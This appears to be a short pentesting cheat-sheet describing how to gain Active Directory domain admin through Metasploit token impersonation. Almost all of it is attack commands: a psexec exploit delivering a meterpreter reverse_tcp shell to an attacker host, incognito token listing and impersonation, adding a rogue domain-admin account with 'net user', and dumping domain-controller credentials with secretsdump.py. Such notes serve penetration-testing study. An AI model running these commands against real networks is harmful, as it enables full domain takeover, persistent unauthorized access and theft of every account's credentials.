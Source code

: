 # Metasploit

1. Open a meterpreter on the target as an administrative user:
```msfconsole
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set rhosts <ip>
set smbuser <user>
set smbpass <password>
set smbdomain <AD-domain>
set lhost <attacker-ip>
```
2. Load incognito module in *msfconsole*:
```msfconsole
load incognito
```
3. List user tokens (With the command `help` we can list all available options):
```msfconsole
list_tokens -u
```
4. Impersonate a user from the list:
```msfconsole
impersonate_token <AD-domain>\\<user>
```
5. Undo impersonation  = revert back to the original user:
```msfconsole
rev2self
```

>[!Note] Game over
>If a domain-administrator has logged in to the machine before, his token should be available and we should be able to impersonate him and thus completely own the domain!

As an impersonated domain-admin we can create our own domain-admin user:
```msfconsole
net user /add <user> <password> /domain
```

Proof:
In a new command window use *secretsdump.py* on the DC:
```bash
secretsdump.py <AD-domain>/<user>:'<password>'@<dc-ip>
```